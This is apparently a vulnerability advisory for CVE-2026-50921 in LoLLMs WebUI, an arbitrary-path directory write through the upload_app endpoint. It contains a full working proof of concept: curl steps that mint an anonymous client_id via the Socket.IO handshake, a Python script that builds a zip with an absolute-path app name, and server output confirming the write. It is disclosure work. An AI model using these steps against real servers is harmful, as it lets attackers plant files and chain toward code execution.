



# CVE-2026-50921 — Arbitrary-Path Directory Write via `/upload_app` `description.yaml` Name in LoLLMs WebUI

[CVE ID]
CVE-2026-50921

[PRODUCT]
parisneo/lollms-webui — LoLLMs WebUI, the web front-end and server for ParisNeo's LoLLMs ("Lord of Large Language and Multimodal Systems") framework.

[VERSION]
commit `8a753f48d73bea1da120b863fc90daf1bfb96973` (17 Feb 2026)

[PROBLEM TYPE]
Directory Traversal (`CWE-22`)

## Description

The entry point is `POST /upload_app` (query parameter `client_id`, multipart file field `file`) in `lollms_core/lollms/server/endpoints/lollms_apps.py`. The only access control is `check_access(lollmsElfServer, client_id)`, which merely verifies that a server-side session entry exists for the id (`lollms_core/lollms/security.py:157-161`). In the verified deployment, any remote client obtains such a `client_id` **without a normal login** by completing the unauthenticated Engine.IO / Socket.IO polling handshake: the Socket.IO `connect(sid, environ)` handler in `lollms_webui.py:183-187` registers every new connection with `session.add_client(sid, sid, ...)`, and that sid is accepted as `client_id`.

The endpoint saves and extracts the uploaded zip, then parses the attacker-controlled `description.yaml` and takes `app_name = description.get("name")` (L340). This value is used completely unsanitized in `app_dir = lollmsElfServer.lollms_paths.apps_zoo_path / app_name` (L347). Because of pathlib semantics, joining with an absolute path discards the base (`Path("/personal_data/apps") / "/tmp/x"` == `Path("/tmp/x")`), so `shutil.move(temp_dir, app_dir)` (L354) moves the entire extracted temp directory — the uploaded archive plus every extracted file — to any attacker-chosen absolute path outside the intended apps zoo.

Vulnerable code: <https://github.com/ParisNeo/lollms-webui/blob/8a753f48d73bea1da120b863fc90daf1bfb96973/lollms_core/lollms/server/endpoints/lollms_apps.py#L308-L354>

Weak identity gate: <https://github.com/ParisNeo/lollms-webui/blob/8a753f48d73bea1da120b863fc90daf1bfb96973/lollms_core/lollms/security.py#L157-L161> and <https://github.com/ParisNeo/lollms-webui/blob/8a753f48d73bea1da120b863fc90daf1bfb96973/lollms_webui.py#L183-L187>

## Proof of Concept

### Victim setup

Image built from the pinned commit per the case runbook (python:3.11-slim base, `pip install -r requirements.txt`, `pipmaster==1.1.0`, `pip install -e lollms_core`, zoo downloads, `python /app/app.py --host 0.0.0.0 --force-accept-remote-access --port 9600`). One operational caveat discovered during reproduction: the app auto-updates itself at startup (`if self.config.auto_update:` at `lollms_webui.py:154` runs `git pull`), which silently replaces the pinned vulnerable code with current upstream code (fixed). The git remote is therefore removed at container start so the CVE commit is served for the whole session; the served commit is verified before and after the attack.

```bash
docker image inspect scdd-lollms-webui:8a753f4 --format 'image {{.Id}} created {{.Created}}'
docker run --rm --entrypoint bash scdd-lollms-webui:8a753f4 -lc 'git -C /app rev-parse HEAD'
# -> 8a753f48d73bea1da120b863fc90daf1bfb96973

docker run -d --name scdd_50921_lollms_webui -e QT_QPA_PLATFORM=offscreen \
  -p 127.0.0.1:39621:9600 --entrypoint bash scdd-lollms-webui:8a753f4 \
  -lc 'git -C /app remote remove origin; exec bash -c "yes \"\" | python /app/app.py --host 0.0.0.0 --force-accept-remote-access --port 9600"'
# wait for GET / to answer, then:
docker exec scdd_50921_lollms_webui git -C /app rev-parse HEAD
# -> 8a753f48d73bea1da120b863fc90daf1bfb96973 (served_commit_before_attack)
```



### Attack steps

All requests are sent from `127.0.0.1` against the published port; no user account, password, or token is ever used.

```bash
BASE='http://127.0.0.1:39621'

# 1) Anonymous identity: unauthenticated Engine.IO polling handshake
HANDSHAKE="$(curl -sS "$BASE/socket.io/?EIO=4&transport=polling&t=$(date +%s%3N)")"
# -> 0{"sid":"lbaGtqrS4R7rC_OvAAAA","upgrades":["websocket"],...}
ENGINE_SID="$(printf '%s' "$HANDSHAKE" | grep -o '"sid":"[^"]*"' | head -n1 | cut -d'"' -f4)"

# 2) Open the Socket.IO namespace and poll -> server-side client_id
curl -sS -X POST "$BASE/socket.io/?EIO=4&transport=polling&sid=${ENGINE_SID}" \
  -H 'Content-Type: text/plain;charset=UTF-8' --data '40'
POLL="$(curl -sS "$BASE/socket.io/?EIO=4&transport=polling&sid=${ENGINE_SID}&t=$(date +%s%3N)")"
# -> 42["connected"]40{"sid":"_lTD50Jkd5rAfXeLAAAB"}
CLIENT_ID="$(printf '%s' "$POLL" | grep -o '40{"sid":"[^"]*"}' | head -n1 | sed 's/.*"sid":"\([^"]*\)".*/\1/')"

# 3) Weaponized app.zip: description.yaml name = absolute path outside the apps zoo
python3 - <<'PY'
import zipfile
marker_dir = "/tmp/CVE50921_MARKER_1790576529"
with zipfile.ZipFile("app.zip", "w", zipfile.ZIP_DEFLATED) as zf:
    zf.writestr("index.html", f"<html><body>{marker_dir.split('/')[-1]} arbitrary path write proof</body></html>\n")
    zf.writestr("description.yaml", f"name: {marker_dir}\n")
    zf.writestr("icon.png", b"\x89PNG\r\n\x1a\n")
PY

# 4) Trigger
curl -sS -w '\nHTTP=%{http_code}\n' -X POST "$BASE/upload_app?client_id=${CLIENT_ID}" \
  -F 'file=@app.zip;type=application/zip;filename=app.zip'
```



### Evidence

The server accepts the absolute path as the app name and confirms the write:

```
ATTEMPT=1 VALID_HTTP=200
{"message":"App '/tmp/CVE50921_MARKER_1790576529' uploaded successfully"}
```

Inside the container, the extracted tree (4 files: `app.zip`, `description.yaml`, `icon.png`, `index.html` — all attacker-controlled) exists at the absolute path, and the containment check proves it is outside the intended apps zoo:

```
$ docker exec scdd_50921_lollms_webui bash -lc "ls -la /tmp/CVE50921_MARKER_1790576529; cat /tmp/CVE50921_MARKER_1790576529/description.yaml; cat /tmp/CVE50921_MARKER_1790576529/index.html"
total 24
drwxr-xr-x 2 root root  4096 Sep 28 06:22 .
drwxrwxrwt 1 root root  4096 Sep 28 06:22 ..
-rw-r--r-- 1 root root  444 Sep 28 06:22 app.zip
-rw-r--r-- 1 root root   38 Sep 28 06:22 description.yaml
-rw-r--r-- 1 root root   8 Sep 28 06:22 icon.png
-rw-r--r-- 1 root root   80 Sep 28 06:22 index.html
--- cat description.yaml ---
name: /tmp/CVE50921_MARKER_1790576529
--- cat index.html ---
<html><body>CVE50921_MARKER_1790576529 arbitrary path write proof</body></html>

$ docker exec scdd_50921_lollms_webui python3 -c 'from pathlib import Path; mz=Path("/tmp/CVE50921_MARKER_1790576529").resolve(); az=Path("/personal_data/apps").resolve(); print("escaped marker_dir        =", mz); print("intended apps_zoo root    =", az); print("marker inside apps zoo?   =", mz.is_relative_to(az))'
escaped marker_dir        = /tmp/CVE50921_MARKER_1790576529
intended apps_zoo root    = /personal_data/apps
marker inside apps zoo?   = False
$ docker exec scdd_50921_lollms_webui ls -la /personal_data/apps   # intended destination stays empty
total 8
drwxr-xr-x 2 root root 4096 Sep 28 06:22 .
drwxr-xr-x 19 root root 4096 Sep 28 06:22 ..
INFO:     172.17.0.1:56648 - "POST /upload_app?client_id=_lTD50Jkd5rAfXeLAAAB HTTP/1.1" 200 OK
```

The served commit was verified to still be `8a753f48d73bea1da120b863fc90daf1bfb96973` after the attack (`served_commit_after_attack`), i.e. the pinned vulnerable code performed the write. Full session: `evidence/transcript.txt` (`### [n/8]` sections), excerpts in `evidence/key_evidence.txt`.



## Impact

A remote attacker who can reach the LoLLMs WebUI HTTP port first mints a valid `client_id` through the unauthenticated Engine.IO / Socket.IO polling handshake (identity material is handed out on connect; no account, password, or token — "authenticated but no login required"), then abuses `POST /upload_app` to achieve an **arbitrary-path directory write of attacker-uploaded content**: the whole extracted application tree (multiple files with fully attacker-controlled bytes, plus the uploaded archive itself) is moved to any absolute path of the attacker's choosing, with server-process privileges. Constraints observed: the destination path must not already exist (the endpoint rejects existing `app_dir` with 400) and its parent directory must exist (`shutil.move` rename semantics); the write happens wherever the server process has filesystem permissions. This primitive allows planting files at arbitrary locations (e.g. overwriting future config/plugin locations, dropping web-served content or code to be loaded by other processes), a standard building block for follow-on code execution chains. Upstream later added ZipSlip member validation in this handler; the current upstream code also sanitizes the path handling, so the primitive is specific to the pinned vulnerable revisions.

## Occurrences

- `lollms_core/lollms/server/endpoints/lollms_apps.py:L308-L311` — `POST /upload_app` route; only gate is presence-only `check_access(lollmsElfServer, client_id)`
- `lollms_core/lollms/server/endpoints/lollms_apps.py:L340` — `app_name = description.get("name")` (tainted, never validated)
- `lollms_core/lollms/server/endpoints/lollms_apps.py:L347` — `app_dir = lollmsElfServer.lollms_paths.apps_zoo_path / app_name` (absolute operand escapes the base)
- `lollms_core/lollms/server/endpoints/lollms_apps.py:L354` — `shutil.move(temp_dir, app_dir)` (sink: whole extracted tree written to attacker path)
- `lollms_core/lollms/security.py:L157-L161` — `check_access` accepts any known session id
- `lollms_webui.py:L183-L187` — Socket.IO `connect` handler registers anonymous connections as session clients

## References

- [CVE-2026-50921](https://www.cve.org/CVERecord?id=CVE-2026-50921)
- [parisneo/lollms-webui](https://github.com/ParisNeo/lollms-webui) (vulnerable tree at commit [`8a753f48d73bea1da120b863fc90daf1bfb96973`](https://github.com/ParisNeo/lollms-webui/tree/8a753f48d73bea1da120b863fc90daf1bfb96973))
